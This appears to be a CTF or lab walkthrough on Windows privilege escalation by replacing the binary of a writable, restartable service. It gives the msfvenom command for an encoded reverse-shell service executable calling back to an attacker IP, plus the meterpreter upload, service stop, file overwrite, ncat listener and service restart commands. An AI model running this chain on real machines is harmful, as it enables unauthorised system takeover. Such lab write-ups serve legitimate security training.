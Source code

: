 <p align="center"> <img src="https://i.imgur.com/pZ84T5T.png" height="90%" width="90%" alt=""/>

Question 1: Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

`AdvancedSystemCareService9`

#

# Question 2

When CanRestart is set to true, it means we can restart a service on the system. Additionally, the directory to the application is writable, allowing us to replace the real application with our harmful one. After doing this, if we restart the service, it will run our infected program instead.

Open a new terminal, Use msfvenom to generate a reverse shell as an Windows executable.

On Terminal: `msfvenom -p windows/shell_reverse_tcp LHOST=10.6.106.187 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe`
- Generated a reverse shell with the name "ASCService.exe". (Save it in your project directory)

<p align="center"> <img src="https://i.imgur.com/kbcOXZ9.png" height="90%" width="90%" alt=""/>

Exit Powershell and upload your binary and replace the legitimate one. Then restart the program to get a shell as root.

On the meterpreter Terminal: `upload ASCService.exe`

<p align="center"> <img src="https://i.imgur.com/c9vNAjx.png" height="90%" width="90%" alt=""/>

Now, we want to swap out the real one. Go into a regular command shell from your meterpreter shell by typing: shell.

Before you copy anything, make sure to halt the service by typing:

On Terminal: `shell`

On Terminal: `sc stop AdvancedSystemCareService9`

<p align="center"> <img src="https://i.imgur.com/zFB5y4X.png" height="90%" width="90%" alt=""/>

We will copy the file to the original location:

On Terminal: `copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"`

<p align="center"> <img src="https://i.imgur.com/a6fZ2sQ.png" height="90%" width="90%" alt=""/>

We now will use ncat to listen. We will open a new terminal to do this:

On Terminal: `ncat -nlvp 4443`

We will restart the program to get into the shell as root.

On Terminal: `sc start AdvancedSystemCareService9`

<p align="center"> <img src="https://i.imgur.com/x5RyzpY.png" height="90%" width="90%" alt=""/>
